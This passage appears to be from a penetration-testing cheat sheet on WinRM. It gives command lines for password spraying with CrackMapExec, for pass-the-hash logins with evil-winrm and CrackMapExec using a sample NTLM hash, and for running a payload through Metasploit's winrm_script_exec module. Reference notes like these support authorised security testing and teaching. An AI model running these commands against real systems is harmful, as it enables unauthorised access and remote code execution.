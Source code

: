 
Using [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

> [!warning]
>
> Deprecated

```sh
crackmapexec winrm target.com -u users.txt -p passwords.txt
```

___




## Pass-the-Hash

Exploit NTLM hash authentication for WinRM access

Using [evil-winrm](https://github.com/Hackplayers/evil-winrm)
with NTLM hash

```sh
evil-winrm -i <target> -u administrator -H '32ed87bdb5fdc5e9cba88547376818d4'
```

WinRM Script Exec Remote Code Execution
([winrm_script_exec](https://www.rapid7.com/db/modules/exploit/windows/winrm/winrm_script_exec/))

> [!info]-
>
> This modules uses valid credentials to login to the WinRM service
> and execute a payload

> [!example]-
>
> ```sh
> use exploit/windows/winrm/winrm_script_exec
> set RHOSTS <target>
> set USERNAME administrator
> set HASH 32ed87bdb5fdc5e9cba88547376818d4
> run
> ```

Using [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

> [!warning]
>
> Deprecated

> [!example]-
>
> ```sh
> crackmapexec winrm <target> -u administrator -H '32ed87bdb5fdc5e9cba88547376818d4'
> ```

___
